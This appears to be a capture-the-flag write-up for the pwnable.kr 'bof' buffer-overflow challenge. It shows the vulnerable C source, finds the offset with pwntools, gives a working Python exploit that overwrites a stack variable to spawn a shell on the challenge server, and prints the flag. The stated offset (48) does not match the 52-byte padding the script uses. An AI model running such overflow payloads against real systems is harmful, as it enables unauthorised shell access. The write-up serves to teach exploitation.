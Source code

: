 
# PWNABLE.KR - bof



### Description:
>Nana told me that buffer overflow is one of the most common software vulnerability. 
>Is that true?

>Download : http://pwnable.kr/bin/bof
>Download : http://pwnable.kr/bin/bof.c

>Running at : nc pwnable.kr 9000


### Reconnaissance / Code Analysis:

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

#### The `main` function does not do much except calling the `func` function, so we will move on to the `func` function:

```C
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
```

We have a 32 bytes buffer named `overflowme` and a `gets` function to read in our input. `Gets` is particularly dangerous as it can not detect the end of available memory and can be vulnerable to `buffer overflow` attack .

#### Therefore, our main objective is to overflow the buffer to replace `key` with `0xcafebabe` so that we can use the shell.



### Solution
#### In order to perform a buffer overflow attack, we need to know the offset from which our target (`key` variable) will be overflowed.

When disassembling the `func` function, we can notice a `cmp` function:

![func disassemble](https://github.com/Catcurity123/CTF/blob/main/picture/1.png)

#### Therefore, we just need t place a break point at this function to examine the location and value of `ebp + 8` to find the offset to overflow.
To make our work even easier, `pwntools` offers cyclic to find offset way faster:

```
cyclic 64
>aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
```
We can then examine our stack to find the location of `key`:

![offset](https://github.com/Catcurity123/CTF/blob/main/picture/2.png)

We can see that `ebp + 8` is at `oxffffcff0`, that is the location we want to overflow. In order to find the exact number, `pwntools` also support `unhex` and `cyclic -l`:

![exact number](https://github.com/Catcurity123/CTF/blob/main/picture/3.png)

#### Therefore, our offset is 48 and the value we want to insert is `\xbe\xba\xfe\xca`:

To enter the bash on the server, we can use `pwntools` once again:

```python
from pwn import *

padding = "A" * 52
key = "\xbe\xba\xfe\xca"
payload = padding + key

shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()

```

#### Finally, we have our output as follows:

![result](https://github.com/Catcurity123/CTF/blob/main/picture/4.png)
## Flag

```
daddy, I just pwned a buFFer :)

```